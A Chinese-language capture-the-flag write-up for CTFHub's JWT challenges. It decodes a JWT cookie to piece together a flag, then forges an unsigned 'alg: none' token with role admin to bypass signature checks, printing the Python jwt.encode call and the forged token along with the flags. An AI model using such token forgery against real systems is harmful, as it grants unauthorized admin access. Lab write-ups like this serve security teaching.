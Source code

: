 观察响应数据

![image-20201020175334255](/images/jwt/image-20201020175334255.png)

发现Cookie属于JWT

![image-20201020175407427](/images/jwt/image-20201020175407427.png)

复制并提交在线工具

```json
eyJBRyI6ImI5MmNlNzk1NDg4ZTZjMDExNjBmNjU4fSIsInR5cCI6IkpXVCIsImFsZyI6IkhTMjU2In0.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiIsIkZMIjoiY3RmaHViezA1OGFiZjNiM2IwZTlkOGQ1In0._TNIAg9rDfqtOFejHiIz9tXyJ7-hGqsKlJudTfXYZtw

# 解码后由下图得知，flag只有一半，但是另一半在header中保存，拼接即可。
```

![image-20201020175507938](/images/jwt/image-20201020175507938.png)

```json
ctfhub{058abf3b3b0e9d8d5b92ce795488e6c01160f658}
```

#### 题二：None

题目提示：JWT支持None，并且后端不执行签名验证。

![image-20201020192649086](/images/jwt/image-20201020192649086.png)

访问URL

```
http://challenge-9f380c0d9554b48b.sandbox.ctfhub.com:10080/login.php
```

admin/admin登录：提示只有admin才能获得flag值。

![image-20201020192750143](/images/jwt/image-20201020192750143.png)

![image-20201020192907650](/images/jwt/image-20201020192907650.png)

获取登录token并进行在线解码处理

分别对header、payload进行解码修改对应值并编码处理。

![image-20201021110733681](/images/jwt/image-20201021110733681.png)

![image-20201021110753552](/images/jwt/image-20201021110753552.png)

````
# 因后台不进行签名验证了，因此可直接替换对应值即可绕过。
# 因在线网站无法修改none，因此这里使用python的交互来获取token如下：
{"typ":"JWT","alg":"none"}
{"username":"admin","password":"1","role":"admin"}
jwt.encode({"username":"admin","password":"1","role":"admin"},algorithm="none",key="")
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxIiwicm9sZSI6ImFkbWluIn0.
````
